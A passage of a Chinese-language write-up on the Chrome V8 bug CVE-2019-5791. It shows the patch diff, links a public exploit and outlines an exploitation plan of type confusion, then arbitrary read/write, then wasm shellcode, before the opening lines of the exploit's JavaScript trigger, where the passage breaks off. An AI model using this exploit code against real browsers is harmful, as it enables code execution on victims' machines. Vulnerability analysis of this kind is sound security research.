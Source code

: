 ```
index d47300a..c5b122c 100644
--- a/src/ast/ast.cc
+++ b/src/ast/ast.cc
@@ -151,26 +151,6 @@
   return IsFunctionLiteral() &amp;&amp; IsAccessorFunction(AsFunctionLiteral()-&gt;kind());
 }

-bool Statement::IsJump() const {
-  switch (node_type()) {
-#define JUMP_NODE_LIST(V) 
-  V(Block)                
-  V(ExpressionStatement)  
-  V(ContinueStatement)    
-  V(BreakStatement)       
-  V(ReturnStatement)      
-  V(IfStatement)
-#define GENERATE_CASE(Node) 
-  case k##Node:             
-    return static_cast&lt;const Node*&gt;(this)-&gt;IsJump();
-    JUMP_NODE_LIST(GENERATE_CASE)
-#undef GENERATE_CASE
-#undef JUMP_NODE_LIST
-    default:
-      return false;
-  }
-}
-
```



## 漏洞利用

​ cve-2019-5791网上只有一个公开的韩国人写的不稳定exp，成功率大概在40%左右，exp地址：[https://github.com/cosdong7/chromium-v8-exploit](https://github.com/cosdong7/chromium-v8-exploit)<br>
。作者水平有限没有构造出比较稳定的exp，下面介绍下这个exp的思路。

​ 因为我们利用cve-2019-5791最终要达到的目的还是任意地址读写，所以要做的就是利用if死结点之后代码的类型混淆构造一个可控的array buffer对象，有了可控的array buffer利用写wasm执行shellcode即可。

```
callFn = function(code) {
    try {
        code();
    } catch (e) {
        console.log(e);
    }
}

let proxy = new Proxy({}, {});

function run(prop, ...args) {
    let handler = {};
    const proxy = new Proxy(function() {}, handler);
    handler[prop] = (({
        v1 = ((v2 = (function() {
            var v3 = 0;
            var callFn = 0;
            if (asdf) {
                return;
            } else {
                return;
            }
            (function() {
                v3();
```